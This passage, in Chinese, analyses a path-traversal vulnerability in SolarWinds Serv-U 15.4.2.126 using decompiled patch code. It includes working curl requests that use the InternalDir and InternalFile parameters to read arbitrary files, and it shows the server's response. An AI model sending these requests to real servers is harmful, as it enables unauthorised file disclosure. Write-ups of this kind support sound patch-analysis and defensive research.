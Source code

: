 修改后的函数处理文件路径。我们可以看到修补后的函数增加了以下检查。  
```
  else
  {
    CSUString::MakeDirSeparator((CSUString *)&v35); // replace '/' characters with '\' character
    if ( (unsigned int)sub_1801A6A18(&v35, L"\\..\\", 0LL) == -1 ) // CString::Find
      CSUString::BuildLocalPath((CSUString *)&v35, qword_18046D5F8);
    else
      ATL::CSimpleStringT<wchar_t,1>::Empty(&v36);
  }
```  
  
检查路径是否包含双点路径段（  
\..\），如果发现，则清除该路径。补丁中增加了这样的检查，这强烈表明该函数是目录遍历漏洞的根本原因。  
  
当我们调查这个易受攻击的函数（此处将其重命名为）的使用情况时  
vulnerable_path_traversal_function，我们发现了该函数的使用模式。例如：  
```
get_request_parameter((__int64)v51, (QAnimationDriver *)v55, (__int64)L"InternalDir");
get_request_parameter((__int64)v51, (QAnimationDriver *)&v42, (__int64)L"InternalFile");
v14 = vulnerable_path_traversal_function((CSUString *)&v36, v56, v43, a1);
```  
  
在 的所有使用中，在调用存在漏洞的函数之前都会检索两个名为和  
vulnerable_path_traversal_function的 HTTP 请求参数。InternalDirInternalFile  
  
只需提供这两个请求参数就能触发目录遍历漏洞并读取任意文件吗？快速的 curl 命令表明我们正在查找正确的位置……  
  
注意：由于在整个分析过程中，每个示例的 curl 都是在 Windows 主机上运行的，因此用插入符号 (^) 将与号 (&) 转义。  
```
curl -i -k --path-as-is http://192.168.86.68/?InternalDir=/../../^&InternalFile=hax
```  
  
以下文件系统访问是由目标服务器上的 Procmon 捕获的，并显示了操作中的路径遍历漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafV99pPHLsfwfIoMZicpXgaXAYmdWdIkfTPtHDnnzNb4Hg1LFIVIkicxPddibyRMVMeXzNZc39Eckwibw/640?wx_fmt=png&from=appmsg "")  
  
现在，我们可以修改请求的路径，以到达我们想要读取的目标服务器上的任意文件。在 Windows 上，Serv-U 程序数据存储在文件夹中  
C:\ProgramData\RhinoSoft\Serv-U\。在此文件夹中，文件  
Serv-U-StartupLog.txt包含应用程序启动期间发出的应用程序日志信息。此文件将包含目标 Serv-U 服务器的版本号等信息。这是验证漏洞的一个很好的文件候选。  
  
  
重新执行我  
们的 curl 请求，我们现在可以读取  
C:\ProgramData\RhinoSoft\Serv-U\Serv-U-StartupLog.txt文件，如下所示。  
```
>curl -i -k --path-as-is http://192.168.86.68/?InternalDir=/../../../../ProgramData/RhinoSoft/Serv-U/^&InternalFile=Serv-U-StartupLog.txt
HTTP/1.0 200 OK
Server: Serv-U/15.4.2.126
Date: Tue, 11 Jun 2024 13:46:06 GMT
Accept-Encoding: deflate
X-Permitted-Cross-Domain-Policies: none
Connection: close
X-Frame-Options: sameorigin
X-Same-Domain: 1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: same-origin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Type: text/plain
Pragma: no-cache
Cache-Control: no-cache,no-store,max-age=0,must-revalidate
Expires: -1
Set-Cookie: CsrfToken=; expires=Thu, 01-Jan-1970 00:00:01 GMT; SameSite=Strict; path=/;  httponly
Content-Length: 2119

[01] Tue 11Jun24 01:28:15 - Serv-U File Server:{B30A1319-9C51-8241-728C-F6FCD0C1BFD2} (64-bit) - Version 15.4 (15.4.2.126) - (C) 2024 SolarWinds Worldwide, LLC.  All rights reserved.
```